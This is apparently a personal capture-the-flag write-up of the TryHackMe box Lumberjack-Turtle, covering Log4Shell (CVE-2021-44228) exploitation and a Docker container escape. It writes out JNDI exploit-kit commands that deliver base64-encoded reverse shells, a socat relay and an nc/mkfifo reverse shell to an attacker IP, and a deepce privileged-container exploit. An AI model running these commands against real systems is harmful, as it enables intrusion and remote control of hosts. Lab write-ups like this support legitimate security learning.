

# Lumberjack-Turtle Writeup

Name: Lumberjack-Turtle
Date:  21/4/2024
Difficulty:  Medium
Goals:  
- Use the JNDI exploit toolkit and Ysoserial
Learnt:
- better log4j exploitation
- disks are not all default named and I had a bias for that `fdisk` for the win
Beyond Root:
- Getting it done is enough

While trying to do a HTB season 5 box I was hoping that a similar service was similarly vulnerable, therefore this Helped-Through exist while I wait on some background recon. I just followed along with [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


www-root on port 80


Cause errors for enumeration


A reminder to use multiple wordlists

And here it is 

~logs directory

and because this is a help thorough and there are hints for Log4j 

...and the log4j page with the hint:


https://apkash8.medium.com/exploiting-the-log4j-vulnerability-cve-2021-44228-4b8d9d5133f6


In my haste to continue on and understand why JDK 1.7 was used in relation to the information provided above and the int from the box. I presume now as of 2024 and season 4 HTB behind me that JDK 1.7 is the best for Ysoserial.

## Exploit

[Got Milk commercial](https://www.youtube.com/watch?v=Zy63_nKaoy8), got this sick working tool for Log4J recommended by [xplo1t-sec](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)
: [https://github.com/pimps/JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit)

```bash
git clone https://github.com/pimps/JNDI-Exploit-Kit.git
cd JNDI-Exploit-Kit
java -jar target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L "$yourLdapServer$:1389" -C "echo $base64ReverseShellage | base64 -d | bash"
```

I then helpfully reminded of HTB season 4 JDK fun time.
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi.git
cd rogue-jndi  
mvn package

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"

java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $base64ReverseShellage
} | {base64,-d}|{bash,-i}" --hostname "10.11.3.193"

```

Pimp's JNDI exploit kit works


and flag

But in a docker container...

## Escaping the container and rooting the host machine


I could use the deepce enumeration script, but I just wanted to walk through it manually first


For the screenshot of mindmelting fun


Trying to connect to the host for docker version exploits


now for namespaces and capabilities


Deepce output


For whatever reason socat did not want to work...
```bash
nohup /tmp/socatx64.bin TCP-LISTEN:8000,reuseaddr,fork TCP:10.11.3.193:8443 &

# 
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 172.17.0.2 8000 >/tmp/f

./deepce.sh --no-enumeration --exploit PRIVILEGED --command "echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxNzIuMTcuMC4yIDgwMDAgPi90bXAvZg== | base64 -d | bash"
```

A better way for disk enumeration, xvda is a disk name I have not seen


and finally

## Post-Root-Reflection  

- Better Log4J exploitation
- Disk are sometimes named different things 
## Beyond Root

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)

